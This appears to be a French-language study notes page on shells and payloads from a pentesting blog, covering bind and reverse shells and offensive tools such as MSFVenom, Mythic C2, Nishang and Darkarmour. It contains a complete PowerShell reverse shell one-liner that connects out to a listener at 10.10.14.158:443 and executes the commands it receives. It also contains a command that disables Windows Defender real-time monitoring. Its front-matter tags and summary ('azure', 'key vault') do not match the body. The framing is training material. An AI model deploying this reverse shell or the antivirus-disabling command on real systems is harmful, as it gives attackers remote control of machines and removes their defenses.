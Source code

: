 ```yaml
---
title: "Shells & Payloads"
date: 2025-08-02
draft: false
tags: ["Shells", "security", ""]
categories: ["azure"]
summary: "key vault"
showToc: true
tocOpen: true
---
```

# Bind Shells
Avec un shell bind, la`Systeme cible ` a un écouteur démarré et attend une connexion du système d'un pentester.
nous nous connectons directement à la cible `IP address`et `port`l'écoutons. Obtenir un Shell de cette manière peut présenter de nombreux défis.
- Il faudrait qu'il y ait déjà un auditeur démarré sur la cible.
- S'il n'y a pas d'auditeur démarré, nous devrons trouver un moyen pour que cela se produise.
- Les administrateurs configurent généralement des règles de pare-feu entrant strictes et NAT (avec implémentation PAT) à la périphérie du réseau (face au public), nous devrions donc déjà être sur le réseau interne.
- Les pare-feu des systèmes d'exploitation (sous Windows et Linux) bloqueront probablement la plupart des connexions entrantes qui ne sont pas associées à des applications réseau de confiance. [[netcat]]( `nc`) est considéré comme notre `Swiss-Army Knife`, car il peut fonctionner sur les sockets TCP, UDP et Unix.

# Reverse Shells
Avec un `reverse shell`, la boîte d'attaque aura un écouteur en cours d'exécution et la cible devra initier la connexion.

Exemple de reverse shell [[PowerShell]]

```Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Payloads

Nous interagirons avec `community edition` de [[Metasploit]]  Nous utiliserons `modules`des charges utiles pré-construites et personnalisées avec `MSFVenom`.

# Payload avec MSFvenom

Nous disposons de nombreuses options intéressantes pour générer des charges utiles à utiliser sur les hôtes Windows.

`MSFVenom & Metasploit-Framework` MSF est un outil extrêmement polyvalent, indispensable à tout pentester. Il permet d'énumérer les hôtes, de générer des charges utiles, d'utiliser des exploits publics et personnalisés, et d'effectuer des actions post-exploitation une fois sur l'hôte. C'est un véritable couteau suisse.

`Payloads All The Things` Ici, vous pouvez trouver de nombreuses ressources et aide-mémoire différentes pour la génération de charge utile et la méthodologie générale.

`Mythic C2 Framework` Le framework Mythic C2 est une option alternative à Metasploit en tant que framework de commande et de contrôle et boîte à outils pour la génération de charge utile unique.
`Nishang` [[content/posts/Outils/Nishang|Nishang]] est un ensemble d'implants et de scripts PowerShell offensifs. Il comprend de nombreux utilitaires utiles à tout pentester.

`Darkarmour` Darkarmour est un outil permettant de générer et d'utiliser des binaires obscurcis à utiliser contre les hôtes Windows.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://attack.mitre.org/techniques/T1059/